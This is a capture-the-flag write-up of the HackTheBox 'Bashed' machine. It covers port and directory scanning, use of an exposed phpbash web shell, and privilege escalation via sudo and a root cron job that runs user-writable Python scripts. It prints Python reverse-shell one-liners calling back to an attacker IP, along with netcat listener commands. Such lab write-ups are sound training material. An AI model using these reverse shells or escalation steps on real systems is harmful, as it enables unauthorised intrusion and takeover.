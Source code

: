 # Bashed [HTB](https://app.hackthebox.com/machines/Bashed)
![bashed-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/bashed-01.png)


## Recon

I start by adding the target to my `/etc/hosts` file.

Then i fire off `nmap` to scan it:

```bash
nmap -sC -sV -A -p- bashed.htb -oN nmap.result
```

![nmap-res-02(https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/nmap-res-02.png)


We have the following:

+ An Apache server on port 80. 


Lets see what this site has to offer. 


## Apache port 80


Lets open our browser and navigate towards the target site at `http://bashed.htb`

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/site-03.png)


The site talks about different tools developed for pentesting, at the moment we only see the `phpbash` 
tool with a valid link. Lets check it out:

![phpbash-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/phpbash-04.png)


If we click on the [Github link](https://github.com/Arrexel/phpbash) we will be brought to the following 
page:

![github-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/github-05.png)

Sounds useful, lets see how to use this tool:

![usage-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/usage-06.png)

Accourding to the instructions, we need to upload the tool to the target server and access it through the URL to get a web-shell. However, the target site said that this tool was developed on the same machine,
so this `phpbash` should be somewhere on the server, lets try and find it. 

I use `ffuf` for directory busting:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.[67/1995$
 -u http://bashed.htb/FUZZ
```

![dev-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/dev-07.png)

This `dev` directory looks promising, lets check it out:

![dev-dir-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/dev-dr-08.png)

Here it is, if we click it we get access to the system:

![shell-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/shell-09.png)

Lets try to elavate our privileges. 


## Privilege Escalation

If we take a look at the `/etc/passwd` file:

```bash
cat /etc/passwd
```

![passwd-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/passwd-10.png)

We can see we have two valid user accounts on the system that are not service accounts. Now if we take a 
look at the `sudo` permissions with:

```bash
sudo -l
```

![sudo-privs-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/sudo-privs-11.png)


As you can see, the `www-data` user can run any command without a password as the `scriptmanager` user.
So we can pop a shell as `scriptmanager` fairly easily with sudo, but first, we need an actual TTY shell, 
not a web shell. 

We can use a one liner revese shell, but first lets setup the listener with:

```bash
rlwrap nc -lnvp 443
```

Then we can use Python for the reverse shell:

```python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.42",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

![tty-shell-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/tty-shell12.png)

Now we can switch to the `scriptmanager` user by running:

```bash
sudo -u scriptmanager /bin/bash
```

![switch-user-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/switch-user-13.png)

If we go to the root directory and run `ls` we can see something unusual:

![scripts-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/scripts-14.png)


If we `cd` into this directory and run `ls -l` inside we can see the following:

![scripts-ll-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/scripts-ll-15.png)


We have a python script, owned by our user, and a `test.txt` file owned by root. Lets take a look at the python script:

![py-script-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/py-script-16.png)

The script simply creates a file called `test.txt` and writes `testing 123!` to it. This is the file ownedby root we saw before in our current directory. The fact taht the file is owned by root tells me there is a task running in the background periodically as the root user, executing this `test.py` script. 

We can verify this with [pspy64](https://github.com/DominicBreuker/pspy):

![task-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/task-17.png)


This is bad, we have a task running as root, executing files ending with a `.py` extension, found in a directory owned by a low-privileged user. Escalation in this scenario is fairly trivial, since we can execute
any command we want as root, through these python scripts.

All we need to do is paste a one-liner Python reverse shell into a file in the `/scripts` directory:

```bash
echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.42",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")' >> pwned.py
```

Setup a listener:

```bash
rlwrap cn -lnvp 9001
```

And we should get a shell as root:

![root-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bashed/img/root-18.png)
